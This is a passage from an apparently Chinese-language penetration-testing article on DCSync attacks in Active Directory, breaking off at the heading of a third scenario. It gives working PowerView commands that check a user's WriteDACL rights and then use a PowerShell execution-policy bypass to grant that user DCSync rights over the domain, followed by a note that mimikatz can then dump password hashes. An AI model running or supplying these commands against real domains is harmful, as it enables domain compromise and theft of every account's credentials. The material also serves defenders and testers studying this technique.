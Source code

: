 查看用户haha的DACL，发现其拥有WriteDACL的权限

```
 Get-ObjectAcl -SamAccountName "haha" -ResolveGUIDs | Where-Object {$_.ActiveDirectoryRights-like "*dacl*"}
```

[![image.png](.\图片\ff896da6-2442-4915-baeb-6b5a9870b675.png)](https://storage.tttang.com/media/attachment/2022/06/25/ff896da6-2442-4915-baeb-6b5a9870b675.png)
那么便可以向自己写入DCSync权限

```
powershell.exe -exec bypass -command "&{Import-Module .\PowerView.ps1;Add-DomainObjectAcl -TargetIdentity \"DC=test,DC=com\" -PrincipalIdentity haha -Rights DCSync -Verbose}"
```

从而直接mimikatz去dump哈希

## [3、DCSync攻击场景三：](https://tttang.com/archive/1634/#toc_3dcsync_1)
